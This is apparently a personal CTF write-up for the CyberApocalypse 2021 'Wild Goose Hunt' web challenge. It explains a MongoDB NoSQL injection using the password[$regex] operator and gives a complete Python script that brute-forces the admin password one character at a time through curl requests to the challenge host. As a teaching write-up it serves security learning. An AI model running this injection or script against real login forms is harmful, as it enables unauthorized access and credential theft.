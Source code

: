 ```yaml
---
title: "CyberApocalypse 2021 | Wild Goose Hunt"
date: "2021-04-24T00:00:00Z"
tags: [web, nosqlinjection, mongodb]
categories: [CTF]
points: 300
solves: 515
---
```


Solves: {{ page.solves }} \| Points: {{ page.points }}

The webpage is just an username and password input field.
After checking the source that we could download we were able to discover that the password of the admin user is also the _flag_.
Also we see that its a _mongodb database_, Maybe we have to do some _nosqlinjection_, after using burp to check the request we see its not using json but urlencoded formdata.

After searching for a poc i found that you can use `password[%24regex]=` to check with an regex, if you just use `^.*` as regex it will pass because it matches everything.
This way we can leak the password because if you put a character that isn't in in that place in the password in front of the `.*` it will fail, if its in the password it will pass.

Now we can bruteforce this, i made a little script using python.

```python
#!/usr/bin/env python
import os
import string
import json

workString = ''
ip = '188.166.145.178'
port = 31336
Solved = False

allowed = list(string.ascii_letters + string.digits + '!_-@{}')

while Solved != True:
    for currentChar in allowed:
        testString = workString+currentChar
        command = f"curl -s -k -X 'POST' -H 'Host: {ip}:{port}' -H 'Content-Type: application/x-www-form-urlencoded;charset=UTF-8' -H 'Accept: */*' -H 'Origin: http://{ip}:{port}' -H 'Referer: http://{ip}:{port}/' -H 'Accept-Encoding: gzip, deflate' -H 'Accept-Language: en-US,en;q=0.9' -H 'Connection: close' --data-binary 'username=admin&password[%24regex]=%5E{testString}.*' http://{ip}:{port}/api/login"
        output = os.popen(command).read()
        jsonData = json.loads(output)
        print( f"[{'+' if jsonData['logged'] == 1 else '-'}] Trying: '{workString}' + '{currentChar}' ({testString}) | isCorrect: {'True' if jsonData['logged'] == 1 else 'False'}")
        if jsonData["logged"] == 1:
            workString+=currentChar
            if currentChar == '}': Solved = True
            break

print("")
print(f"[FLAG] The flag is: {workString}")
```

^ A download for this script can be found [here](/assets/CTFs/CyberApocolypse2021/WideGooseHunt/solve.py)

Now that the solver is running ill explain what it does.
![](/assets/CTFs/CyberApocolypse2021/WideGooseHunt/solver_running.png)

This code will loop over every character, if the character is correct than it will add it to the working password.
Then it will go the the next place in the password and try every character, until the last character is found.
It knows if its correct by checking if the `logged` value in the returned jsondata is `1`.

After running the script it found the flag.
**CHTB{1_th1nk_the_4l1ens_h4ve_n0t_used_m0ng0_b3f0r3}**
![](/assets/CTFs/CyberApocolypse2021/WideGooseHunt/solver_done.png)

Thanks for reading my writeup!

---

sources: [NOSQL INJECTION OPERATORS](https://infosecwriteups.com/nosql-injection-8732c2140576)
